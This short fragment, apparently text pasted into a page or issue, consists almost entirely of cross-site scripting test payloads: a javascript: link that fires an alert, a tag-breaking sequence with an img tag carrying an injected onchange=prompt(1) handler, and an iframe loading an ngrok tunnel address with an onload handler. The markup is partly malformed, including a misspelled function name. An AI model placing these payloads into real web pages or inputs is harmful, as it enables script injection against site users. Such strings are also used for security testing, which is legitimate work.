 # <a href="javascript:alert('XSS Attack!');">Click me</a>
<!---></div></article></p><img src='https://in.pinterest.com/pin/932245191599758496 onchange=prompt(1)></img>
<html>
<body>
  <iframe src=https://81d2-2405-201-5c2b-b043-cf5d-d07b-da69-b547.ngrok-free.app onONLOAD=promot('xss')/>
</body>
</html>

